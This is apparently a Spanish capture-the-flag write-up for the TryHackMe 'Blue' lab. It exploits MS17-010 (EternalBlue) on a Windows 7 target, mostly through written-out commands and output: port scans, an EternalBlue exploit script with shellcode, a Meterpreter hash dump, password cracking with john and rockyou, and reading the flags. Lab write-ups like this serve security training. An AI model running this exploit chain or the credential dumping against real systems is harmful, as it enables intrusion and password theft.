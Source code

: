 ```yaml
---
title: "tryhackme: blue"
share: false
excerpt: "El mejor metodo de aprendizaje es practicando"
share: false
header:
  teaser:  /assets/images/blue/logo.jpeg
  teaser_home_page: true
categories:
  - tryhackme
tags:
  - Ethernal blue - ms08-067
  - Windows
---
```


### Iniciamos conprobando que la maquina este encendida 

```bash
❯ ping -c 1 10.10.31.159
PING 10.10.31.159 (10.10.31.159) 56(84) bytes of data.
64 bytes from 10.10.31.159: icmp_seq=1 ttl=127 time=187 ms

--- 10.10.31.159 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 186.669/186.669/186.669/0.000 ms
❯ settarget 10.10.31.159
```

Comprobamos que _OS_ corre la maquina

```bash
❯ wichSystem.py 10.10.31.159

10.10.31.159 (ttl -> 127): Windows
```

### ahora si a realizar un primer escaneo de puertos

```bash
sudo nmap --open --min-rate 5000 -p- -sS -Pn -n 10.10.31.159 -oG allPorts
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-11 07:47 -05
Stats: 0:00:43 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 54.84% done; ETC: 07:48 (0:00:36 remaining)
Stats: 0:01:25 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 99.99% done; ETC: 07:48 (0:00:00 remaining)
Nmap scan report for 10.10.31.159
Host is up (1.2s latency).
Not shown: 52538 filtered tcp ports (no-response), 12992 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49153/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 85.45 seconds
```

> How many ports are open with a port number under 1000?

> 3

vemos el resultado del escaneo anterior con la utilidad _extractPors_ y esta nos copia los puertos en la clipboard

```bash
> extractPorts allPorts
   1   │ 
   2   │ [*] Extracting information...
   3   │ 
   4   │     [*] IP Address: 10.10.31.159
   5   │     [*] Open ports: 135,139,445,3389,49153
   6   │ 
   7   │ [*] Ports copied to clipboard
   8   │ 
```
Con los puertos copiados en la clipboard procedemos a realizar un escaneo con _script_ basicos de vulnerabildades de _nmap_

> What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

> ms17-010

ahora ya sabemos que es vulnerable a _ethernalblue_, buscamos un exploit manual en _google_

![exploit manual](/assets/images/blue/manual.png)

procedemos a instalar la utilidad

- comandos 

```bash
> pip install -r requirements.txt
```

el _script_ tiene una utilidad que nos confirma que la maquina es vulnerable a _ethernalblue_

```bas
❯ python3 eternal_checker.py 10.10.125.134
[*] Target OS: Windows 7 Professional 7601 Service Pack 1
[!] The target is not patched
=== Testing named pipes ===
[*] Done
```

Como vemos, la maquina no esta parchada contra esta vulnerabilidad, procedemos a explotarla
nos novemos al directorio _shellcode_ como indicaa la "guia" del _scritp_

![configuracion scrit](/assets/images/blue/shell_code.png)

- ejecutamos con la configuración anterior
- toca ejecutar el comando varias veces puesto que, se bloquea la maquina y/o problemas de _eternalblue_ (algo común)

```bash
❯ python eternalblue_exploit7.py 10.10.125.134 shellcode/sc_all.bin
shellcode size: 2205
numGroomConn: 13
Target OS: Windows 7 Professional 7601 Service Pack 1
SMB1 session setup allocate nonpaged pool success
SMB1 session setup allocate nonpaged pool success
good response status: INVALID_PARAMETER
done
```

en otra consola ponemos nuestra ejecutamos el comando *listener_prep.sh*

# hashdump

```bash
meterpreter > run post/windows/gather/hashdump

[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_sys_process_set_term_size
[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 55bd17830e678f18a3110daf2c17d4c7...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hints...

Jon:"Nah boi, I ain't sharing nutting with you"

[*] Dumping password hashes...


Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

ahora vamos a intentar crackear cada contraseña con el diccionario *rockyou.txt*

```bash
❯ john /home/blanco/Desktop/thm/blue/content/users.txt --wordlist=/home/blanco/Desktop/thm/rockyou.txt --format=NT

alqfna22	(jon)
```

ahora a buscar la flag, para ello debemos regresar a la raiz del sistema y leer la primer bandera

```bash
meterpreter > pwd
C:\Windows
meterpreter > cd ..
meterpreter > pwd
C:\
meterpreter > ls
Listing: C:\
============

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
40777/rwxrwxrwx   0      dir   2009-07-13 22:18:56 -0500  $Recycle.Bin
40777/rwxrwxrwx   0      dir   2009-07-14 00:08:56 -0500  Documents and Settings
40777/rwxrwxrwx   0      dir   2009-07-13 22:20:08 -0500  PerfLogs
40555/r-xr-xr-x   4096   dir   2009-07-13 22:20:08 -0500  Program Files
40555/r-xr-xr-x   4096   dir   2009-07-13 22:20:08 -0500  Program Files (x86)
40777/rwxrwxrwx   4096   dir   2009-07-13 22:20:08 -0500  ProgramData
40777/rwxrwxrwx   0      dir   2018-12-12 22:13:22 -0500  Recovery
40777/rwxrwxrwx   4096   dir   2018-12-12 18:01:17 -0500  System Volume Information
40555/r-xr-xr-x   4096   dir   2009-07-13 22:20:08 -0500  Users
40777/rwxrwxrwx   16384  dir   2009-07-13 22:20:08 -0500  Windows
100666/rw-rw-rw-  24     fil   2018-12-12 22:47:39 -0500  flag1.txt
0000/---------    0      fif   1969-12-31 19:00:00 -0500  hiberfil.sys
0000/---------    0      fif   1969-12-31 19:00:00 -0500  pagefile.sys

meterpreter > cat flag1.txt
xxxx{xxcxsx_txe_mxcxixx}
```

para encontrar la 2da flag y no hacerlo manualmente usamos el comando

> dir flag /s /p
